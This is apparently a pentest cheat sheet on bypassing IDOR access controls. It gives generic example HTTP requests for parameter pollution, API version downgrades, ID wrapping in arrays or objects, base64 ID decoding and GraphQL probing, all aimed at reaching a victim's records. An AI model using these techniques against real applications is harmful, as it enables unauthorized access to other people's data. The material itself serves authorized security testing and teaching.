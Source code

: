 ## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

Source: [portswigger.net](https://portswigger.net/web-security/access-control/idor)

1. Add parameters onto the endpoints for example, if there was
```html
GET /api/v1/getuser
[...]
```
Try this to bypass
```html
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution

```html
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```html
GET /v2/GetData/1234
[...]
```
Try this to bypass
```html
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions

```html
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```html
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```html
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```
